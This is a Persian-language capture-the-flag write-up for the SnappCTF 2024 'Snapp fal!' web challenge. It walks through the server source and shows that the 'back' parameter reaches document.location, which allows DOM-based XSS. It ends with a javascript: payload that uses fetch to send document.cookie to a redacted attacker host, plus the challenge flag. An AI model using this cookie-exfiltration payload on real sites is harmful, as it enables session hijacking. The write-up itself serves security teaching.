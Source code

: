```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - XSS
  - DOM-Based XSS
  - Web
---
```



<h1 dir="ltr">Snapp fal!</h1>

<center>

![snappfal.png](./snappfal.png)

</center>

همینطور که میبینین این یه چالش XSS هستش که باید سعی کنیم کوکی های ادمین رو بخونیم و برای خودمون بفرستیم

بعد از باز کردن آدرس وبسایت ما با این صفحه روبرو میشیم

<center>

![snappfal1.png](./snappfal1.png)

</center>

اگه روی دکمه *نشون بده* کلیک کنین وارد یه صفحه میشین که آدرسش به این صورت هستش:

‍‍```https://snappfal.spchallenge.ir/fal?back=/&fal=some-random-text-here```

که توی اون صفحه بهتون متن فال رو نشون میده که (همون چیزی هستش که توی پارامتر fal قرار داره) و بعد از چند ثانیه به آدرسی که توی پارامتر back قرار داره ریدایرکت میشیم


برای این سوال به ما سورس چالش رو دادن که میتونین اون رو دانلود کنین و اگه به فایل src.js  دقت کنیم که چطوری فال هارو برای ما نشون میده و چطوری مارو ریدایرکت میکنه

```js
#!/usr/bin/env node
const express = require('express')
const fs = require('fs')

const app = express()
const indexPage = fs.readFileSync('./pages/index.html').toString()
const falPage = fs.readFileSync('./pages/fal.html').toString()
const randomFals = [
	'%D8%AC%D9%84%D8%B3%D9%87%20%D8%A8%D8%B9%D8%AF%DB%8C%20%DA%A9%D9%84%D8%A7%D8%B3%D8%AA%20%DA%A9%D9%86%D8%B3%D9%84%20%D9%85%DB%8C%D8%B4%D9%87',
	'%D9%81%D8%B1%D8%AF%D8%A7%20%D8%AA%D9%88%20%DB%8C%DA%A9%20%D8%AA%D8%B1%D8%A7%D9%81%DB%8C%DA%A9%20%D8%B3%D9%86%DA%AF%DB%8C%D9%86%20%DA%AF%DB%8C%D8%B1%20%D9%85%DB%8C%DA%A9%D9%86%DB%8C',
	'%D8%AD%D9%82%D9%88%D9%82%D8%AA%20%D8%B3%D8%A7%D9%84%20%D8%AF%DB%8C%DA%AF%D9%87%20%D8%B3%D9%87%20%D8%A8%D8%B1%D8%A7%D8%A8%D8%B1%20%D9%85%DB%8C%D8%B4%D9%87'
]

app.get('/',(req,res)=>{
	res.send(indexPage)
})

app.get('/random-fal',(req,res)=>{
	res.redirect('/fal?back=/&fal='+randomFals[Math.floor(Math.random()*randomFals.length)],)
})

app.get('/fal',(req,res)=>{
	let to = (req.query.back ?? '/').toString()
	let fal = (req.query.fal || '').toString()

	to = to.replaceAll('"','\\x22').replaceAll('<','\\x3c')
	fal = fal.replaceAll('"','&quot;').replaceAll('<','&lt;')

	res.send(fs.readFileSync('./pages/fal.html').toString().replace('$fal$',fal).replace('$URL$',to))
})

app.listen(8000, () => {
	console.log('Server listening on port 3000')
})
```

توی مسیر <span dir="ltr">**/random-fal**</span> یک فال رندوم از آرایه randomFals میگیره و به مسیر <span dir="ltr">**/fal**</span> ریدایرکت میشیم

و توی مسیر <span dir="ltr">**/fal**</span> یه *back*, *fal* داریم که *back* آدرسی هستش که به اون ریدایرکت میشیم و fal هم متنی هستش که تو صفحه بهمون نشون میده ولی اگه دقت کنین مقدار fal escape میشه و نمیتونیم برای اون xss بزنیم

خب بیاین یه نگاهی به سورس صفحه ای بندازیم که توش فال ها به ما نشون داده میشه:

```sh
$  curl https://snappfal.spchallenge.ir/fal?back=ADDR_GOES_HERE&fal=FAL_GOES_HERE 
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Snapp fal!</title>
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Vazirmatn:wght@400&display=swap" rel="stylesheet">
<style>
    body {
        background-color: white;
    }

    .cont {
        display: flex;
        justify-content: center;
        align-items: center;
        height: 100vh; 
    }

    .card {
        background-color: #f7f6f2;
        padding: 60px 40px;
        border-radius: 10px;
        text-align: center;
    }

    button:hover {
        background-color: #40a38b;
    }

    span {
        color: #81766d;
        font-family: 'vazirmatn', sans-serif; 
        font-size: 32px;
        font-weight: bold;
        display: block;
    }
</style>
</head>
<body>
    <div class="cont">
        <div class="card">
            <span></span>
        </div>
    </div>
    <script>
        setTimeout(_=>{
            document.location = "ADDR_GOES_HERE"  
        },2000)
    </script>
</body>
</html>
```

خب مثله اینکه ادرسی که ما بهش میدیم میره مستقیم میشینه توی document.location ، پس اگه از javascript scheme استفاده کنیم میتونیم XSS بگیریم

ضمن اینکه توضیحات چالش هم به ما یه جورایی هینت داده و این [آدرس](https://portswigger.net/web-security/cross-site-scripting/dom-based) رو بهمون داده تا یه نگاهی بهش بندازیم

```
/fal?javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

به جای REDACTED آدرسی سرور خودتون رو بزارین تا فلگ براتون ارسال بشه یا اینکه از webhook.site استفاده کنین

حالا کافیه که آدرس رو بدیم به ادرس بات که برامون فلگ رو بفرسته xd

```
final addr: https://snappfal.spchallenge.ir/fal?back=javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{89d36f80b85bde916fbdeb8592c1b368}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)


